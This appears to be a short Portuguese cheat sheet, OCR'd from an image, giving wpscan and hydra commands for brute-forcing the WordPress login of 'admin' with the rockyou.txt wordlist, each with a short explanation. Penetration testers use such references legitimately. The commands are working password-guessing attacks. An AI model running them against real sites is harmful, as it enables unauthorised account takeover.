 # wpscan
### Comando:
wpscan --url http://example.com/wordpress/wp-login.php --passwords rockyou.txt --usernames admin
### Descrição:
WPScan é uma ferramenta de segurança focada em WordPress. Este comando realiza um ataque de força bruta no formulário de login do WordPress, tentando combinar o nome de usuário "admin" com senhas do arquivo rockyou.txt.

# Hydra
### Comando:
hydra -l admin -P rockyou.txt example.com http-post-form "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:mensagem de erro"
### Descrição:
Hydra é uma ferramenta de brute force genérica que suporta vários protocolos. Este comando tenta fazer login no formulário de login do WordPress usando o nome de usuário "admin" e senhas do arquivo rockyou.txt. Ele usa o método HTTP POST para enviar os dados de login e verifica se a mensagem de erro retornada é "Invalid username or password".
